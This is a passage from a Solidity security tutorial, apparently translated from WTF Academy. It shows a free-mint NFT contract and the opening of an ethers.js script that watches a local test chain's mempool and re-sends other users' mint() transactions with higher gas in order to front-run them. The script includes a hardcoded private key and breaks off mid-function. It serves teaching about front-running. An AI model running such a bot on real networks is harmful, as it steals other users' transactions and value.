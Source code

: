 **3. Deploy the NFT Contract:** Deploy a simple freemint NFT contract on Remix. It has a `mint()` function for free NFT minting.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
// english translation by 22X
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// We attempt to frontrun a Free mint transaction
contract FreeMint is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Mint function
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. Deploy the ethers.js front-running script:** In simple terms, the `frontrun.js` script listens to pending transactions in the test chain's mempool, filters out transactions that call `mint()`, and then duplicates and increases the gas to front-run them. If you are not familiar with `ether.js`, you can read the [WTF Ethers](https://github.com/WTFAcademy/WTF-Ethers) tutorial.

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Create provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork();
network.then(res =>
  console.log(
    `[${new Date().toLocaleTimeString()}] Connected to chain ID ${res.chainId}`,
  ),
);

// 2. Create interface object for decoding transaction details.
const iface = new utils.Interface(["function mint() external"]);

// 3. Create wallet for sending frontrun transactions.
const privateKey =
  "0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a";
const wallet = new ethers.Wallet(privateKey, provider);

const main = async () => {
  // 4. Listen for pending mint transactions, get transaction details, and decode them.
  console.log("\n4. Listen for pending transactions, get txHash, and output transaction details.");
  provider.on("pending", async txHash => {
    if (txHash) {
      // Get transaction details
      let tx = await provider.getTransaction(txHash);
      if (tx) {
        // Filter pendingTx.data
        if (
          tx.data.indexOf(iface.getSighash("mint")) !== -1 &&
          tx.from != wallet.address
        ) {
```